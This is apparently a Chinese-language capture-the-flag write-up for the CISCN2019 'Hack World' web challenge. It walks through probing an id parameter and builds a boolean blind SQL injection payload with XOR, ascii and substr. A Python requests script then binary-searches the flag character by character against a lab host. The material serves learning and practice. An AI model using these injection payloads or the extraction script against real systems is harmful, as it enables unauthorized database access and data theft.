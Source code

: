 # [CISCN2019 华北赛区 Day2 Web1]Hack World（学习）
![](<./img/Pasted image 20221108085601.png>)

![](<./img/Pasted image 20221108085629.png>)

```php
id=1
```
> Hello, glzjin wants a girlfriend.


```php
id=2
```
> Do you want to be my girlfriend?


```php
id=3
```
> Error Occured When Fetch Result.

```php
id=0
```
> Error Occured When Fetch Result.


```php
id=1; show databases#
```
> SQL Injection Checked.

```php
id=abc
```
> bool(false)

搜索得知这题是传说中的布尔盲注

通过上面的尝试可知，对`id`的运算结果为`1`或`2`时返回对应的字符串，为其他数字时返回错误，为非数字时返回false，因此可利用这一点逐个判断出flag的每一个字符
```sql
id=0^(ascii(substr((select(flag)from(flag)),/*index*/,1))>/*特定值*/)
```
若后面的比较为真，则`0^1`为`1`，返回`Hello, glzjin wants a girlfriend.`

否则`0^0`为`0`，报错

通过`python`脚本来二分（顺便学下`requests`怎么用QwQ）
```python
import requests

url = 'http://b405dc5e-a9fb-4e52-9d5d-f10a343e2bbd.node4.buuoj.cn:81/index.php'

for i in range(1, 100):
    a = 0
    b = 127
    while a < b:
        mid = (a + b) // 2
        r = requests.post(
            url,
            data={'id':'0^(ascii(substr((select(flag)from(flag)),{},1))>={})'.format(i, mid)})
        if r.content[-2:] == b't.':
            b = mid
        else:
            a = mid + 1

    print(chr(a-1),sep='',end='',flush=True)

```
![](<./img/Pasted image 20221108173940.png>)
